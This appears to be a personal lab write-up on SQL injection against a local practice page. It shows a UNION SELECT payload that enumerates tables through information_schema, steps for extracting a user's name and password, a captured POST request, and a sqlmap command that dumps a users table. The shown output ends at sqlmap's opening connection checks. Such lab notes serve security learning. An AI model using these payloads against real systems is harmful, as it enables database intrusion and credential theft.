 **`Tanjyoubi Sushi Rack' 'union select null,null,null, table_name from information_schema.tables#`**
 search for this
And it does indeed gives all of the tables name 
![[../Screenshot from 2024-06-20 03-49-19.png]]
 Now we have the product table and the user tables and this is what we want to use to steal the user data
![[../Pasted image 20240620035227.png]]

And after searching this we will get a user 

![[../Screenshot from 2024-06-20 03-53-49.png]]

Lets do the same but try password instead

![[../Screenshot from 2024-06-20 03-54-56.png]]

and we will get a password

![[../Screenshot from 2024-06-20 03-56-06.png]]

Lets try it with the SQL map
grab the post request and change the last part to product = test 

```python
POST /labs/i0x03.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 102
Origin: http://localhost
Connection: close
Referer: http://localhost/labs/i0x03.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

product=test                                                                    
```

lets run the SQL map

```python
┌──(cyber㉿kali)-[~/Desktop/bugbounty]
└─$ sqlmap -r req.txt --level=2   -T injection0x03_users --dump
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8.5#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 04:00:22 /2024-06-20/

[04:00:22] [INFO] parsing HTTP request from 'req.txt'
[04:00:22] [INFO] testing connection to the target URL
[04:00:22] [INFO] checking if the target is protected by some kind of WAF/IPS
```